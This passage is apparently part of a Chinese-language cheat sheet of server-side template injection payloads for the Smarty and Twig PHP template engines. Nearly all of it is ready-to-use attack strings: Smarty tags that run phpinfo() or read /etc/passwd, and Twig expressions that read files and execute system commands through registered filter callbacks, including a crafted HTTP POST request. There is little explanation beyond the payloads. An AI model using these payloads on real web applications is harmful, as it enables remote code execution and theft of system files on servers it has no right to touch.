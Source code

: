 `<script language="php">phpinfo();</script>`
### 3、`{if}`

Smarty的{if}条件判断和PHP的if 非常相似，只是增加了一些特性。每个{if}必须有一个配对的{/if}. 也可以使用{else} 和 {elseif}. 全部的PHP条件表达式和函数都可以在if内使用，如_||_,or,&&,and,is\_array(), 等等

`{if phpinfo()}{/if}`
- ### 4、getStreamVariable
  
  新版本失效  
  `{self::getStreamVariable("file:///etc/passwd")}`
  
  # twig
  ----
  
  文件读取
  ```
    {{'/etc/passwd'|file_excerpt(1,30)}}
    
    {{app.request.files.get(1).__construct('/etc/passwd','')}}
    {{app.request.files.get(1).openFile.fread(99)}}
  ```
  rce
  ```
    {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
    
    {{['cat /etc/passwd']|filter('system')}}
    
    POST /subscribe?0=cat+/etc/passwd HTTP/1.1
    {{app.request.query.filter(0,0,1024,{'options':'system'})}}
  ```